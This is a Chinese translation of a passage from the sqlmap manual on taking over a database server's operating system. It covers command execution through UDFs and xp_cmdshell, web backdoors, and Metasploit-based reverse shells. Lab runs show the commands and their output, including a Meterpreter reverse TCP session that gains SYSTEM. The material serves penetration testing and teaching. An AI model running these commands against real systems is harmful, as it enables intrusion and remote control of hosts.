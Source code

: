 ## 接管操作系统

### 运行任意操作系统命令

选项和开关：`--os-cmd` 和 `--os-shell`

当后端 DBMS（Database Management System，数据库管理系统）为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性的利用权限时，sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令**。

在 MySQL 和 PostgreSQL 中，sqlmap 可以上传（通过前面描述的文件上传功能）一个包含两个用户自定义函数——分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件），然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；如果该存储过程不存在，sqlmap 则会重新创建它。

当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。相反，如果无需标准输出对应结果，sqlmap 则会使用堆叠查询注入技术执行相关的命令。

这些技术的相关详情可见白皮书[通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

针对 PostgreSQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

sqlmap 还支持模拟 shell 输入，你可以输入任意命令以执行。对应的选项是 `--os-shell`，并且和 `--sql-shell` 一样，具备 TAB 补全和记录历史命令的功能。

如果堆叠查询没有被 Web 应用（例如：PHP 或 ASP 且后端 DBMS 为 MySQL）识别出来，并且 DBMS 为 MySQL，假如后端 DBMS 和 Web 服务器在同一台服务器上，则仍可以通过利用 `SELECT` 语句中的 `INTO OUTFILE`，在 Web 服务器根目录中的可写目录中创建 Web 后门，从而执行命令。sqlmap 支持上述功能并允许用户提供一个逗号分隔、用于指定根目录子目录的列表，从而尝试上传 Web 文件传输器和后续的 Web 后门。sqlmap 有以下几种语言的 Web 文件传输器和后门：

* ASP
* ASP.NET
* JSP
* PHP

###  有状态带外连接：Meterpreter & friends

开关和选项：`--os-pwn`，`--os-smbrelay`，`--os-bof`，`--priv-esc`，`--msf-path` 和 `--tmp-path`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server 时，并且当前会话用户拥有对数据库特定功能和架构缺陷的利用权限时，sqlmap 能够在**攻击者机器与数据库服务器之间建立起有状态带外 TCP 连接**。根据用户的选择，该连接可以是交互式命令行、Meterpreter 会话、或者图形用户界面（VNC）会话。

sqlmap 依赖 Metasploit 创建 shellcode，并实现了四种不同的技术在数据库服务器上执行它。这些技术分别是：

* 通过 sqlmap 的用户自定义函数 `sys_bineval()` 在数据库**内存中执行 Metasploit shellcode**。MySQL 和 PostgreSQL 支持该技术，通过开关 `--os-pwn` 启用。
* 通过 sqlmap 的用户自定义函数 `sys_exec()` 向 MySQL 和 PostgreSQL 上传一个 Metasploit **独立 payload 传输器**并执行，对于 Microsoft SQL Server 则是使用 `xp_cmdshell()` 函数，通过开关 `--os-pwn` 启用。
* 通过进行从数据库服务器到攻击者机器（由 Metasploit `smb_relay` 服务监听）之间的 UNC 路径请求的 **SMB 反射攻击**（[MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)）来执行 Metasploit shellcode。当 sqlmap 运行于具有高权限（`uid=0`）的 Linux/Unix 上，且目标 DBMS 以 Windows 管理员身份运行时支持该技术，通过开关 `--os-smbrelay` 启用。
* 通过利用 **Microsoft SQL Server 2000 和 2005 的 `sp_replwritetovarbin` 存储过程堆缓冲区溢出**（[MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)）在数据库内存中执行 Metasploit shellcode。sqlmap 使用自己的 exploit，自动绕过 DEP 内存保护来触发漏洞，但它依赖 Metasploit 生成 shellcode，以便在成功利用时执行，通过开关 `--os-bof` 启用。

相关的技术详情可见于白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)和幻灯片[将控制由数据库层面拓展到操作系统](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database)。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下，MySQL 在 Windows 上以 `SYSTEM` 身份运行，然而 PostgreSQL 在 Windows 和 Linux 上均以低权限用户 `postgres` 运行。Microsoft SQL Server 2000 默认以 `SYSTEM` 身份运行，而 Microsoft SQL 2005 和 2008 大部分情况下以 `NETWORK SERVICE` 身份运行，有时候以 `LOCAL SERVICE` 身份运行。

使用 sqlmap 的 `--priv-esc` 开关，可以通过 Metasploit `getsystem` 命令进行**数据库进程用户提权**，该命令使用了包括 [kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) 在内的各种技术（[MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx)）。
